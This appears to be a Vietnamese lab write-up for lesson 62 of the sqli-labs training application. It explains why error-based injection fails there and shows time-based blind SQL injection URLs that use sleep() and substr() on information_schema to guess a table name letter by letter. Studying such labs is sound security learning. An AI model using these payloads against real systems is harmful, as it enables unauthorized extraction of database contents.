





# Những việc làm được với lesson-62
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-62



TA thử như những bài trước 



Sau nhiều lần thử nghiệm thì bài này không dùng được error-base vì nó không có thông báo lỗi và cũng đã tìm được cấu trúc truy vấn của nó 

```
192.168.80.225/sqli-labs/Less-62/?id=1') --+
```



Ta sẽ phải dùng time-base. Để dùng time base sẽ mất rất nhiều thời gian ở đây cũng cho rất nhiều lần thử tôi sẽ thử một vài lần thôi 

```
192.168.80.225/sqli-labs/Less-62/?id=1') and if(substr((SELECT table_name from information_schema.tables where table_schema='challenges'),1,1)='Q',sleep(1),false) --+
```



Ta biết được chữ cái đầu tiên của nó. TƯơng tự ta sẽ biết được thêm chữ cái đến hết 

```
192.168.80.225/sqli-labs/Less-62/?id=1') and if(substr((SELECT table_name from information_schema.tables where table_schema='challenges'),1,3)='Q5D',sleep(1),false) --+
```



Nhưng làm thế này rất lâu và rất mất thời gian. Nhưng cách làm ở bài này là như vậy 

